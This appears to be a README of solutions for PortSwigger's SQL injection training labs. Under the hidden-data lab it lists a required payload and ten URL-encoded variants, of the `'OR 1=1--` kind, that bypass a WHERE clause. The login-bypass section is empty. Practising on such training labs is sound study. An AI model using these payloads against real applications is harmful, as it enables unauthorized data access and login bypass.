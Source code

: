 # SQL-injection
# Port Swigger SQL injection Lab Solutions <tag>

####Retrieving hidden data<h4>

[1.Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)


1. Solutions
   1. `'+OR+1=1--` -> Required
   >The server can also respond for the following
   1. `'OR+'1'='1--`
   1. `'OR+'1'='1'--`
   1. `'OR+'1'--`
   1. `'OR+true--`
   1. `'OR+'a'='a'--`
   1. `/OR+1=1--`
   1. `)'OR+1=1-- `
   1. `""OR+1=1--`
   1. `)*OR+1=1--`
   
####Subverting application logic<h4>

[2.Lab: SQL injection vulnerability allowing login bypass](https://portswigger.net/web-security/sql-injection/lab-login-bypass)

1. Solutions

  

